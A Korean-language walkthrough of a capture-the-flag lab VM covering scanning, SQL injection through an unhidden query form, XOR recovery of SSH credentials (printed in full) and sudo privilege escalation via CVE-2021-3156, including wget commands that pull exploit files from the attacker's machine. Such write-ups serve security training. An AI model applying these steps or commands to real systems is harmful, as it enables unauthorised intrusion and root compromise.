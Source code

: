 # XSS-CTF
2025-04-18 XSS-CTF  Walkthrough

네트워크 1-브리지 2-호스트

kali: 192.168.56.105
victim:192.168.56.143

nmap 192.168.56.0/24

nmap -A -sS -sC -p- 192.168.56.143


kali firefox에서 http://192.168.56.143 접속	//apache2 기본 페이지


## Scan

```
gobuster dir -u http://[xss-ctf ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,bak
```
/index.php  /index.html  /list.php  /add.php

## /index.php

!!!!!!!
들어가보았지만 Not Found가 뜬다. 그래서 web source페이지를 보았다.

!!!!!!!

/H10000.txt
!!!!!!!!
H10000 값


## /list.php

index.php에서 Not Found가 떠서 list.php를 들어가면 다음과 같은 글이 작성되어있다

!!!!!!!!!
M1,M2,M3,M4 값이 중요하기 때문에 복붙

1번 게시글 삭제 후 /index.php 를 다시 들어가면 정상적인 페이지가 뜬다는 것을 확인할 수 있다
!!!!!!!!!!
!!!!!!!!!!

## /add.php

http://192.168.56.143/add.php에서 View Source Code를 들어가서 보면 쿼리 작성폼이라는 주석이있는 줄에 쿼리 작성 폼과 ID 조회하는 코드에 type=”hidden”이 되어 있는 것을 알 수 있다.

!!!!!!!!!!

개발자 도구 -F12
<!- -MySQL 쿼리 입력 폼 -- > 주석 확인
type=”hidden” 2개 확인 가능

!!!!!!!!!!!!!!!!!!!!!

type=”hidden” 삭제

type=”hidden” -> type=”submit” 변경


Mysql 쿼리 입력 부분 출력됨
!!!!!!!!!!!!!!!!!!!!!!!!

SQL Injection 공격 가능 – userID DB 확인 가능
!!!!!!!!!!!!!!!!!!!!
!!!!!!!!!!!!!!!!!!!!

## XOR 연산

XOR 변환기

/list.php 에서 얻은 M1,M2,M3,M4 값과 /H10000 에서 얻은 H10000 값으로 XOR 연산

이 과정은 총 2가지로 풀 수 있다.

1번 방법: 

192.168.56.143/index.php에서 다음과 같은 식을 제공하였다. 이때 P=Password다. 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ 

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5값을 구하면 M4를 통해 H9999를 구할 수 있다. H9999=M4⨁P 이후 M1을 이용하여 K를 구할 수 있다. 이때 UserID는 위의 SQL Injection으로 찾아낸 UserID 중 하나씩 다 대입하면 UserID=Ocean777Timewarp를 넣어서 계산하다보면 그럴듯한 K=secretpassword12값이 나온다. 그 다음 M2에서 serverID=M2⨁H9999를 구할 수 있다. serverID=cr0sss1tescr1pt9 이제 서버의 ID와 Password를 전부 찾았다.

2방법: 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ P

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5를 구한 후 M1⨁M2=userID⨁serverID가 나오고 SQL Injection으로 찾아낸 userID를 하나씩 대입하면 serverID= cr0sss1tescr1pt9가 나온다. 이렇게 하면 굳이 H9999값과 K값을 구하지 않아도 ServerID값을 구할 수 있다.


## SSH 접속

userID :
cr0sss1tescr1pt9

password :
df93ef64167b2334664ff59a5b8185f5

!!!!!!!!!!!!!!!!!!!!!!!!!!


## User Flag

!!!!!!!!!!!!!!


## Root Flag

root로 권한 상승 - sudoedit
!!!!!!!!!!!!!!!!

https://github.com/blasty/CVE-2021-3156  참조

- brute.sh , hax.c , lib.c 파일 생성

cr0sss1tescr1pt9 사용자는 vi,vim,nano 사용할 수 없다.

kali-root 계정에서 /var/www/html/ 디렉터리에 파일 생성 후, cr0sss1tescr1pt9 사용자 계정에서 wget으로 파일을 다운로드한다.
```
wget http://[kali ip]/brute.sh
```
```
wget http://[kali ip]/hax.c
```
```
wget http://[kali ip]/lib.c
```

https://github.com/blasty/CVE-2021-3156 - Makefile 참고
!!!!!!!!!!!!!!!







